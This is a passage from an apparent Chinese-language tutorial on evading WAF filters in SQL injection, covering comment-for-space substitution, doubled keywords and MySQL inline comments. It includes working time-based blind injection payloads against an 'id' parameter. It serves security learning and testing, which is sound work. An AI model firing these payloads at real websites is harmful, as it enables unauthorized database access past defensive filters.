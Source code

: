 ![](https://mmbiz.qpic.cn/mmbiz_jpg/bMyibjv83iavwRBIgsYoFc5689Xu4wqXgw9zOAVopicRUXxubqYelTLCLAWb5SNmeWDH2GTCFDIVIpPBCrFC28zkw/640?wx_fmt=jpeg)

注入语句成功写入

c)   使用注释符 /**/ 替换空格绕过

绕过 payload：

```
 ?id=1'/**/and/**/sleep(3)/**/and/**/'1'='1
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/bMyibjv83iavwRBIgsYoFc5689Xu4wqXgwW2LPRUiaicpr4cCH1K1XuXgDFvMNTuLUhJsoEH0YPlYeSGoHg711hr4Q/640?wx_fmt=jpeg)

注入语句成功写入

### 4. 双关键字绕过

部分 WAF 会对关键字只进行一次过滤处理，可使用双关键字绕过。

增加了过滤规则的代码：

![](https://mmbiz.qpic.cn/mmbiz_jpg/bMyibjv83iavwRBIgsYoFc5689Xu4wqXgwUzSwbkbn3tH3HtoVPBL1rARZlT5O2EluIjPzQTHE0fXQ40icSWsp4CQ/640?wx_fmt=jpeg)

正常 payload：

```
?id=1and SLeeP(3) and 1=1
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/bMyibjv83iavwRBIgsYoFc5689Xu4wqXgwFPsBFyAUKScfSgt9gfLlSiareoVEOx2QYuPSXGWZCic4em6z4blmibTdA/640?wx_fmt=jpeg)

由于使用了 strtolower() 函数，所以无法使用大小写转换进行绕过，注入语句未成功插入。

绕过 payload：

```
?id=1+and+SLesleepeP(3)+and+1=1 
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/bMyibjv83iavwRBIgsYoFc5689Xu4wqXgwtO2ianyoCP12oFZCR0T5cgshvwjFFzjticpRRCQDKNbVhPk4icBLXpU5g/640?wx_fmt=jpeg)

WAF 只对关键字 sleep 进行一次过滤，可使用 SLEsleepEP，进行一次过滤后成为 sleep，可绕过 WAF，注入语句成功写入。

### 5. 内联注释绕过

在 MySQL 里，/**/ 是多行注释，这个是 SQL 的标准，但是 MySQL 扩张了解释的功能，如果在开头的的 /* 后头加了惊叹号（/*!50001sleep(3)*/），那么此注释里的语句将被执行。

增加了过滤规则的代码：

![](https://mmbiz.qpic.cn/mmbiz_jpg/bMyibjv83iavwRBIgsYoFc5689Xu4wqXgwtO2ianyoCP12oFZCR0T5cgshvwjFFzjticpRRCQDKNbVhPk4icBLXpU5g/640?wx_fmt=jpeg)

正常 payload：

```
?id=1+and+sleep(3)+and+1=2
```
